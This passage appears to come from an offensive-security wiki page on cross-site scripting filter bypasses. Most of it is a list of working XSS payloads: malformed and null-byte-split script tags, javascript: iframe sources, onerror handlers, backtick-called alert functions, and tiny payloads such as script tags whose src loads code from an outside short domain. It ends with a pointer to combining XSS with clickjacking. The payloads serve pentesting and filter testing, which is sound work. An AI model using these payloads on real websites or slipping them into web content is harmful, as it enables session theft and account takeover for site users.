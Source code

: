 ```javascript
%09

//Unexpected parent tags
<svg><x><script>alert('1'&#41</x>

//Unexpected weird attributes
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script      ///Note the newline
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>

//Not closing tag, ending with " <" or " //"
<iframe SRC="javascript:alert('XSS');" <
<iframe SRC="javascript:alert('XSS');" //

//Extra open
<<script>alert("XSS");//<</script>

//Just weird an unexpected, use your imagination
<</script/script><script>
<input type=image src onerror="prompt(1)">

//Using `` instead of parenthesis
onerror=alert`1`

//Use more than one
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS=alert`1` //
```

### Length bypass (small XSSs)

> [!NOTE] > **More tiny XSS for different environments** payload [**can be found here**](https://github.com/terjanq/Tiny-XSS-Payloads) and [**here**](https://tinyxss.terjanq.me).

```html
<!-- Taken from the blog of Jorge Lajara -->
<svg/onload=alert``> <script src=//aa.es> <script src=//℡㏛.pw>
```

The last one is using 2 unicode characters which expands to 5: telsr\
More of these characters can be found [here](https://www.unicode.org/charts/normalization/).\
To check in which characters are decomposed check [here](https://www.compart.com/en/unicode/U+2121).

### Click XSS - Clickjacking

If in order to exploit the vulnerability you need the **user to click a link or a form** with prepopulated data you could try to [**abuse Clickjacking**](../clickjacking.md#xss-clickjacking) (if the page is vulnerable).
